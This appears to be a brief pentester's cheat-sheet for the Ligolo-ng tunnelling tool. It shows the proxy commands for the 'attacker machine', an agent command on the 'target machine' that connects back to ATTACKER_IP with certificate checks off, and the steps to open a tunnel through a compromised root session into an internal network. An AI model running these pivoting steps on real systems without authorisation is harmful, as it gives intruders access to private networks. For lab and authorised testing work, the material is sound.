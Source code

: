 # Ligolo

Traffic networking tool

## Usage

Attacker machine

```shell
ligon #Custom Alias
sudo ./proxy --selfcert
WARN[0000] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC!
WARN[0000] Using self-signed certificates
INFO[0000] Listening on 0.0.0.0:<PORT>
```

Target machine

```shell
./agent -connect ATTACKER_IP:<PORT> -ignore-cert
WARN[0000] warning, certificate validation disabled
INFO[0000] Connection established 
```

Once we good a connection in the proxy server we execute

```shell
ligolo-ng » session
? Specify a session : 1 - root@casino - ... - ...
[Agent : root@casino] » start
INFO[0101] Starting tunnel to root@casino
```

And in the end we do `sudo ip route add ... dev ligolo`

Now we should be able to connect to internal route that is going through the target machine